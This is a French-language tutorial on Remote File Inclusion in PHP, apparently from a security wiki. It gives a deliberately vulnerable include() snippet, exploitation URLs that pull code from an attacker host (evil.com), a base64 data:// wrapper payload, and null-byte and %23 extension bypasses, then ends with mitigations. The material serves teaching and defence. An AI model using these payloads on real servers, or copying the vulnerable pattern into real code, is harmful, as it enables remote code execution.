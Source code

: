 # Remote File Inclusion : RFI 

## 1.Presentation 

Explication de la faille + fonctionnement du logiciel


Le RFI est une faille permettant à un attaquant d'inclure un fichier distant. Cette vulnérabilité est basée
sur des fonctions telles que include ou encore require (pour le php).
D'autres langages comme le Javascript et l'ASP sont aussi impactés.

Les conséquences sont multiples :

* L'exécution de code sur le serveur web
* L'exécution de code sur le côté client comme le JavaScript peut conduire à d'autres attaques comme Cross-site scripting (XSS)
* Déni de service (DoS)
* Le vol de données / Manipulation de données

Ces types d’attaques sont de moins en moins présentes dans les applications qui sont basées majoritairement sur des framework robustes. 
Mais ces vulnérabilités existent bel et bien, il est donc intéressant de connaître des méthodes d’attaques pour en mesurer la gravité.

Un exemple de code vulnérable :

```PHP
<?php
$incfile = $_GET["file"];
include($incfile.".php");
?>
```

Dans cette exemple le nom du fichier est extrait depuis la requete HTTP et aucunes validations ne lui est appliquées.

La détection de cette faille est relativement simple car si on inclut un fichier inexistant on se retrouve avec une erreur qui peut ressembler à :

```

Warning: include(test.php): failed to open stream: No such file or directory in /test/index.php on line 18 
Warning: include(): Failed opening 'test.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /test/index.php on line 18 

```
## 2.Exploitation


Le but de l'exploitation est d'inclure un fichier distant sur le serveur.

__2.1 Méthode 1 : RFI basique__

On passe en paramètre une url pointant vers un script externe : 

<http://localhost/rfi.php?page=http://evil.com/exploit.php>

Ce script sera récupéré par l’application et exécuté puis rendu dans la page résultante.



__2.2 Méthode 2 : DATA URI__

Nous allons utiliser le wrapper PHP DATA pour exécuter du code php.

Tout d'abord nous allons encoder notre script en base64

Soit grâce à un commande bash :
```BASH
echo -n "<?php echo 'vulnerable'; ?>" | base64 

PD9waHAgZWNobyAndnVsbmVyYWJsZSc7ID8+
```

Soit grâce au site : <https://www.base64encode.org/|Base64Encode>

Pour l'exploitation :

<http://localhost/rfi.php?page=data://text/plain;base64,notre_script_encodé_en_base64>

On obtient :

<http://localhost/rfi.php?page=data://text/plain;base64,PD9waHAgZWNobyAndnVsbmVyYWJsZSc7ID8+>

Cela aura pour effet d'afficher "vulnérable" sur le site.
Je vous laisse imaginer des scripts plus poussés pour effectuer des actions plus évoluées.


__2.3 Méthode 3 : Bypass d'extensions auto ajoutées__

Il est possible que lorsque d'un essaie d'inclure un script distant le site ajoute automatiquement une extension (.php / .text /.js ...)

Il y a deux façons pour éviter cela :

Première solution : Le null byte (CF  faille LFI)
 

<http://localhost/rfi.php?page=http://wikisecu.fr/exploit.php%00>

Seconde solution (fonctionne uniquement sur certains sites) : Le caractère #

Le caractère # une fois encodé donne %23


<http://localhost/rfi.php?page=http://wikisecu.fr/exploit.php%23>



**3.Comment se protéger**

Il est possible de désactiver le support en passant la valeur des directives “allow_url_open” et “allow_url_include” à “Off”.

Vous pouvez bloquer l’utilisation des wrappers en installant l’extension Suhosin pour PHP (sauf si “allow_url_include” = “On”).

Source :

<http://blog.clever-age.com/fr/2014/10/21/owasp-local-remote-file-inclusion-lfi-rfi/>

<https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion|OWASP>

<https://fr.wikipedia.org/wiki/Remote_File_Inclusion|Wikipedia>